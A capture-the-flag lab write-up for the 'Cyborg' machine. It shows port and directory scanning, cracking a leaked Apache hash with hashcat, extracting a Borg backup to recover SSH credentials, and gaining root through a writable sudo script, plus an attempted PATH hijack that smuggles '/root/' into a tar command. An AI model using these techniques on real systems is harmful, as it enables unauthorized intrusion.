


<h1>Cyborg</h1>
<br><br>

## Recon

Let's start by looking at what services are running on the machine:

```bash
sudo nmap -sS -sV -Pn <IP>
# PORT   STATE SERVICE VERSION
# 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's first look at the Apache server. On it we find the default non configured Apache landing page. Let's do some directory busting:

```bash
gobuster -t 100 dir -u http://<IP>/ -w /path/to/directory-list-2.3-medium.txt
# /admin                (Status: 301) [Size: 310] [--> http://10.10.90.75/admin/]
# /etc                  (Status: 301) [Size: 308] [--> http://10.10.90.75/etc/]
```

Interesting, let's start with `/etc/`, on it we find a file directory listing that gives us two files.

- `squid/squid.conf`:

  ```
  auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
  auth_param basic children 5
  auth_param basic realm Squid Basic Authentication
  auth_param basic credentialsttl 2 hours
  acl auth_users proxy_auth REQUIRED
  http_access allow auth_users
  ```

- `squid/passwd`:

  ```
  music_archive:$apr1$BpZ.Q.1m$<redacted1>
  ```

The config is a proxy configuration, by itself it doesn't really reveal anything interesting. Though let's investigate the hash, we can grab it's unique identifier, in this case `$apr1$` and see if hashcat knows it, there is a very good website that lists every single hashcat mode and examples: [examples_hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)

On it we find:

```
| Hash-Mode | Hash-Name                               | Example                               |
|-----------|-----------------------------------------|---------------------------------------|
| 1600      | Apache $apr1$ MD5, md5apr1, MD5 (APR) 2 | $apr1$71850310$gh9m4xcAn3MGxogwX/ztb. |
```

## Cracking a hash

This makes sense, the hash is most probably an Apache MD5, let's try to crack it using hashcat and a simple rockyou (we can pretty much be sure it's in rockyou.txt due to the difficulty level of the challenge):

```bash
echo "$apr1$BpZ.Q.1m$<redacted1>" > hash.txt
hashcat -m 1600 -a 0 -o cracked.txt hash.txt /path/to/rockyou.txt
cat cracked.txt
# $apr1$BpZ.Q.1m$<redacted1>:<redacted2>
```

## Finding the archive

We got a keyword, or passphrase or password or something, though we don't know what for, let's keep looking around.

Let's go back and now look at `/admin/`, we find a basic webpage with some explanation on what the admin does, he likes music and stuff, this would be very valuable info in case we are trying to generate wordlists associated for this user, though this doesn't seem to be where the challenge is going.


There are two interesting pages, once references a conversation between "Josh", "Adam" and "Alex" (these usernames could be useful once again for wordlist and guessing)



Alex mentions a very interesting thing, about an archive, we actually have a `Archive` dropdown link in the nav bar where we can download a file called `archive.tar`, let's download it and see what's inside.

```bash
tar -xvf archive.tar
```

This gives us a `home/` folder:

```bash
tree home/
# home
# └── field
#     └── dev
#         └── final_archive
#             ├── README
#             ├── config
#             ├── data
#             │   └── 0
#             │       ├── 1
#             │       ├── 3
#             │       ├── 4
#             │       └── 5
#             ├── hints.5
#             ├── index.5
#             ├── integrity.5
#             └── nonce
```

By looking inside `README` for example we learn:

```bash
cat home/field/dev/final_archive/README
# This is a Borg Backup repository.
# See https://borgbackup.readthedocs.io/
```

All the other files appear to be part of the Borg Backup system, one notable thing is `home/field/dev/final_archive/data/0/4` which is 1.4Mb and encrypted.

Let's look at the [borgbackup documentation](https://borgbackup.readthedocs.io/). We can try to check if borg can list us the archives present inside `final_archive/`:

```bash
borg list home/field/dev/final_archive/
# music_archive.   Tue, 2020-12-29 15:00:38 [<some hex value>]
```

The previous `list` command asked for a passphrase, I tried supplying it with the previously found `<redacted2>` and it worked!

Perfect let's try to extract that archive now:

```bash
borg extract home/field/dev/final_archive::music_archive
# home
# └── alex
#     ├── Desktop
#     │   └── secret.txt
#     ├── Documents
#     │   └── note.txt
#     ├── Downloads
#     ├── Music
#     ├── Pictures
#     ├── Public
#     ├── Templates
#     └── Videos
```

Perfect, let's look at the `txt`'s:

```bash
cat home/alex/Desktop/secret.txt
# shoutout to all the people who have gotten to this stage whoop whoop!"

cat home/alex/Documents/note.txt
# Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
#
# alex:<redacted3>
```

## Accessing SSH

Perfect we got a username:password pair, because we have explored all other paths, this let's me believe that we can go back to the beginning and try to connect via SSH:

```bash
ssh alex@<IP>
# Password: <redacted3>

alex@ubuntu:~$ ls
# Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt
# <redacted4>
```

## PrivEsc time

We got the first flag, let's now look into root.txt, like 99% of challenges it's always in the same place with the same strategy, we need to find a privilege escalation and access `/root/root.txt`.

First step look at our permissions:

```bash
id
# uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
alex@ubuntu:~$ sudo -l
# Matching Defaults entries for alex on ubuntu:
#     env_reset, mail_badpass,
#     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

# User alex may run the following commands on ubuntu:
#     (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

We are a sudoer with pretty limited access, though we do have a NOPASSWD access as root to the `/etc/mp3backups/backup.sh` script.

<details>
<summary>&nbsp;<h2>Going mad</h2></summary>

At this point I lost a lot of time because I didn't directly check the permissions I had on the `/etc/mp3backups/backup.sh` script, after looking at it one thing stood out to me:

```bash
# ...
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"
# ...
tar czf $dest/$archive_file $backup_files
```

I was 100% sure this was the way to go, we would try to hijack hostname and inject the `/root/` into the tar compression. I almost got it to work if it wasnt for the `env_reset` that was making sure `root`' $PATH was being reset and I couldn't hijack `hostname`.

But because this is good knowledge to keep documented for later use, I'll still explain my approach.

First I looked at `$PATH`:

```bash
echo $PATH
# /home/alex/bin:/home/alex/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

I have priority on the $PATH as alex (myself) is in front. Though this might have been a user specific thing. So I created my own `hostname` and put it in `/home/alex/bin/hostname`:

```bash
#!/bin/bash
echo "foo.tgz /root/ /home/alex/bar"
```

And to make sure it worked I created a bar-scheduled.tgz in `home/alex`. Let me explain what all of this does.

tar is expecting a `$dest/$archive_file` as the destination for the archive to be created, then everything that comes after are files expected to be added to the archive.

- `$dest` is set to `/etc/mp3backups/`
- `$backup_files` is set to a bunch of .mp3 files in `/home/alex/Music` (though their are not correctly named and I had to fix that to make sure the script worked as tar might break and give up if it can't find the files)
- Finally `$archive_file` which is our attack vector, the idea is to give this variable something to please whatever is coming before, after and in between add our desired path `/root/`.

What comes before is `/etc/mp3backups/` it expected any file name to create the archive, I gave it `foo.tgz`, then adding a space after that, ensures that everything that follows is actually archives inside `foo.tgz`, so here we give it `/root/` and a `/home/alex/bar`, the latter is to please what comes next, we can't really comment out everything I tried and tar just thinks that `#` is a file, so because our payload is appended with `-scheduled.tgz`, I had to create a valid file at `/home/alex/bar-scheduled.tgz`.

This worked perfectly, appart from the fact that when doing `sudo /etc/mp3backups/backup.sh` it would `env_reset` the `$PATH` and I couldn't hijack `hostname` to point to my own `hostname` script.

</details>

## Correct solution

If you have more than 4 brain cells unlike me, you would have just done the following:

```bash
ls -l /etc/mp3backups/backup.sh
# -r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh
```

Seen that our current user is the owner of this file, which means we can do whatever we want, let's say for example give ourselves write permission

```bash
chmod +w /etc/mp3backups/backup.sh
```

And just changed the script to a simple sudo shell:

```bash
#!/bin/bash
sudo /bin/bash
```

Call `sudo /etc/mp3backups/backup.sh` and we are root.

```bash
cat /root/root.txt
# <redacted5>
```

## Conclusion

This was a very interesting challenge, I didn't expect a easy level to be so long and intricate. I lost a lot of time on basic errors that I would have fixed by just knowing a little bit more.

But I don't think it was wasted time, actually I learned a lot, especially on how `env_reset` works, and it also allowed me to remember that `$PATH` hijacking is a very powerful tool to keep in mind.

I do think that the injection of `/root/` via `hostname` would have made for a very interesting challenge.
